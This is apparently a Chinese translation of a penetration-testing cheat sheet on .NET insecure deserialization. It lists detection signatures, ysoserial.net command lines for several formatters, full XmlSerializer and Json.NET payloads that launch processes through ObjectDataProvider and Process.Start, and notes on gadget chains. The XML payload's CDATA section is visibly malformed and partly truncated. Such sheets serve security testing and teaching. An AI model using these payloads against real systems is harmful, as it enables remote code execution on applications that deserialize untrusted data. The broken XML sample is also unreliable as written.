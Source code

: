# .NET序列化

## 摘要

* [检测](#detection)
* [工具](#tools)
* [格式化器](#formatters)
  * [XmlSerializer](#xmlserializer)
  * [DataContractSerializer](#datacontractserializer)
  * [NetDataContractSerializer](#netdatacontractserializer)
  * [LosFormatter](#losformatter)
  * [JSON.NET](#jsonnet)
  * [BinaryFormatter](#binaryformatter)
* [POP小部件](#pop-gadgets)
* [参考资料](#references)


## 检测

* `AAEAAD`（十六进制）=.NET反序列化BinaryFormatter
* `FF01`（十六进制）/ `/w`（Base64）=.NET ViewState

示例：`AAEAAAD/////AQAAAAAAAAAMAgAAAF9TeXN0ZW0u[...]0KPC9PYmpzPgs=`


## 工具

* [pwntester/ysoserial.net - 为各种.NET格式化器生成反序列化有效载荷](https://github.com/pwntester/ysoserial.net)

```ps1
$ cat my_long_cmd.txt | ysoserial.exe -o raw -g WindowsIdentity -f Json.Net -s
$ ./ysoserial.exe -p DotNetNuke -m read_file -f win.ini
$ ./ysoserial.exe -f Json.Net -g ObjectDataProvider -o raw -c "calc" -t
$ ./ysoserial.exe -f BinaryFormatter -g PSObject -o base64 -c "calc" -t
```

## 格式化器

![NETNativeFormatters.png](https://github.com/swisskyrepo/PayloadsAllTheThings/raw/master/Insecure%20Deserialization/Images/NETNativeFormatters.png?raw=true)    
来自[pwntester/attacking-net-serialization](https://speakerdeck.com/pwntester/attacking-net-serialization?slide=15)的.NET本机格式化器

### XmlSerializer

* 在C#源代码中，查找`XmlSerializer(typeof(<TYPE>));`。
* 攻击者必须控制XmlSerializer的**类型**。
* 有效载荷输出：**XML**

```xml
.\ysoserial.exe -g ObjectDataProvider -f XmlSerializer -c "calc.exe"
<?xml version="1.0"?>
<root type="System.Data.Services.Internal.ExpandedWrapper`2[[System.Windows.Markup.XamlReader, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089">
   <ExpandedWrapperOfXamlReaderObjectDataProvider xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" >
       <ExpandedElement/>
       <ProjectedProperty0>
           <MethodName>Parse</MethodName>
           <MethodParameters>
                <anyType xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xsi:type="xsd:string">
                    <![CDATA<ResourceDictionary xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" xmlns:d="http://schemas.microsoft.com/winfx/2006/xaml" xmlns:b="clr-namespace:System;assembly=mscorlib" xmlns:c="clr-namespace:System.Diagnostics;assembly=system<ObjectDataProvider d:Key="" ObjectType="{d:Type c:Process}" MethodName="Start<ObjectDataProvider.MethodParameters><b:String>cmd</b:String><b:String>/c calc.exe</b:String></ObjectDataProvider.MethodParameters></ObjectDataProvider></ResourceDictionary>]]>
                </anyType>
            </MethodParameters>
           <ObjectInstance xsi:type="XamlReader"></ObjectInstance>
        </ProjectedProperty0>
    </ExpandedWrapperOfXamlReaderObjectDataProvider>
</root>
```


### DataContractSerializer

> DataContractSerializer以松散耦合的方式反序列化。它从不会从传入的数据中读取公共语言运行时（CLR）类型和程序集名称。XmlSerializer的安全模型与DataContractSerializer类似，主要在细节上有所不同。例如，使用XmlIncludeAttribute属性而不是KnownTypeAttribute属性进行类型包含。

* 在C#源代码中，查找`DataContractSerializer(typeof(<TYPE>))`。
* 有效载荷输出：**XML**
* 数据**类型**必须是用户可控的才能被利用


### NetDataContractSerializer 

> 它扩展了`System.Runtime.Serialization.XmlObjectSerializer`类，能够像`BinaryFormatter`一样序列化任何带有可序列化属性的类型。

* 在C#源代码中，查找`NetDataContractSerializer().ReadObject()`。
* 有效载荷输出：**XML**

```ps1
.\ysoserial.exe -f NetDataContractSerializer -g TypeConfuseDelegate -c "calc.exe" -o base64 -t
```

### LosFormatter

* 内部使用`BinaryFormatter`。

```ps1
.\ysoserial.exe -f LosFormatter -g TypeConfuseDelegate -c "calc.exe" -o base64 -t
```


### JSON.NET

* 在C#源代码中，查找`JsonConvert.DeserializeObject<Expected>(json, new JsonSerializerSettings`。
* 有效载荷输出：**JSON**

```ps1
.\ysoserial.exe -f Json.Net -g ObjectDataProvider -o raw -c "calc.exe" -t
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35', 
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd', '/c calc.exe']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

### BinaryFormatter

> BinaryFormatter类型是危险的，不建议用于数据处理。应用程序应尽快停止使用BinaryFormatter，即使它们认为处理的数据是可信赖的。BinaryFormatter是不安全的，无法使其安全。

* 在C#源代码中，查找`System.Runtime.Serialization.Binary.BinaryFormatter`。
* 利用需要`[Serializable]`或`ISerializable`接口。
* 有效载荷输出：**二进制**


```ps1
./ysoserial.exe -f BinaryFormatter -g PSObject -o base64 -c "calc" -t
```


## POP小部件

这些小部件必须具有以下属性：

* 可序列化
* 公共/可设置变量
* 魔法“函数”：Get/Set, OnSerialisation, 构造函数/析构函数

你必须为特定的**格式化器**仔细选择你的**小部件**。


常见有效载荷中使用的一些流行小部件列表。

* **ObjectDataProvider** 来自 `C:\Windows\Microsoft.NET\Framework\v4.0.30319\WPF\PresentationFramework.dll`

  * 使用`MethodParameters`设置任意参数
  * 使用`MethodName`调用任意函数 

* **ExpandedWrapper**

  * 指定封装对象的`object types`

  ```cs
  ExpandedWrapper<Process, ObjectDataProvider> myExpWrap = new ExpandedWrapper<Process, ObjectDataProvider>();
  ```

* **System.Configuration.Install.AssemblyInstaller**

  * 使用Assembly.Load执行有效载荷   

  ```cs
  // System.Configuration.Install.AssemblyInstaller
  public void set_Path(string value){
      if (value == null){
          this.assembly = null;
      }
      this.assembly = Assembly.LoadFrom(value);
  }
  ```


## 参考资料

* [攻击.NET序列化 - Alvaro - 2017年10月20日](https://speakerdeck.com/pwntester/attacking-net-serialization?slide=11)
* [攻击.NET反序列化 - Alvaro Muñoz - 2018年4月28日](https://youtu.be/eDfGpu3iE4Q)
* [黑色星期五13号：JSON攻击 - Alvaro Muñoz (@pwntester) Oleksandr Mirosh - 幻灯片](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-Json-Attacks.pdf)
* [黑色星期五13号：JSON攻击 - Alvaro Muñoz (@pwntester) Oleksandr Mirosh - 白皮书](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-attacks-wp.pdf)
* [黑色星期五13号：JSON攻击 - Alvaro Muñoz (@pwntester) Oleksandr Mirosh - DEF CON 25会议](https://www.youtube.com/watch?v=ZBfBYoK_Wr0)
* [你是我的类型吗？通过序列化打破.NET沙箱 - James Forshaw - 幻灯片](https://media.blackhat.com/bh-us-12/Briefings/Forshaw/BH_US_12_Forshaw_Are_You_My_Type_Slides.pdf)
* [你是我的类型吗？通过序列化打破.NET沙箱 - James Forshaw - 白皮书](https://media.blackhat.com/bh-us-12/Briefings/Forshaw/BH_US_12_Forshaw_Are_You_My_Type_WP.pdf)
* [现在你序列化，现在你不序列化 - 系统性狩猎反序列化漏洞 - ALYSSA RAHMANDEC](https://www.mandiant.com/resources/blog/hunting-deserialization-exploits)
* [通过ViewState在ASP.NET中利用反序列化 - Soroush Dalili (@irsdl) - 2019年4月](https://soroush.secproject.com/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/)
* [绕过.NET序列化绑定器 - Markus Wulftange - 2022年6月28日](https://codewhitesec.blogspot.com/2022/06/bypassing-dotnet-serialization-binders.html)
* [基本.Net反序列化（ObjectDataProvider小部件，ExpandedWrapper和Json.Net） - hacktricks](https://book.hacktricks.xyz/pentesting-web/deserialization/basic-.net-deserialization-objectdataprovider-gadgets-expandedwrapper-and-json.net)
* [Sitecore Experience Platform预认证RCE - CVE-2021-42237 - 2021年11月2日 - Shubham Shah](https://blog.assetnote.io/2021/11/02/sitecore-rce/)
* [寻找新的DataContractSerializer RCE小部件链 - 2019年11月7日 - dugisec](https://muffsec.com/blog/finding-a-new-datacontractserializer-rce-gadget-chain/)